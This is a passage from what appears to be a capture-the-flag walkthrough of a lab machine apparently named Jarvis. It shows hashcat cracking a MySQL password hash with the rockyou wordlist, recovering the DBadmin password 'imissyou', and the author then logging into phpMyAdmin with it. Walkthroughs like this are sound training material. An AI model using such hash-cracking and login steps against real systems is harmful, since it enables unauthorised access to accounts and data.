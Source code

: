 ```none
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 345 MB

Dictionary cache hit:
* Filename..: ..\wordlists\rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

2d2b7a5e4e637b8fba1d17f40318f277d29964d0:imissyou

Session..........: hashcat
Status...........: Cracked
Hash.Name........: MySQL4.1/MySQL5
Hash.Target......: 2d2b7a5e4e637b8fba1d17f40318f277d29964d0
Time.Started.....: Wed Sep 23 19:48:06 2020 (0 secs)
Time.Estimated...: Wed Sep 23 19:48:06 2020 (0 secs)
Guess.Base.......: File (..\wordlists\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 12593.9 kH/s (5.78ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 1048576/14344385 (7.31%)
Rejected.........: 0/1048576 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456 -> Leslee
Hardware.Mon.#1..: Temp: 66c Util:  3% Core:1065MHz Mem:3500MHz Bus:16

Started: Wed Sep 23 19:48:01 2020
Stopped: Wed Sep 23 19:48:07 2020
```

From here, I determined that the `DBadmin` user's password was `imissyou`.
Next, I logged in to `phpmyadmin` with the credentials.

![](./images/jarvis-phpmyadmin-login.png)
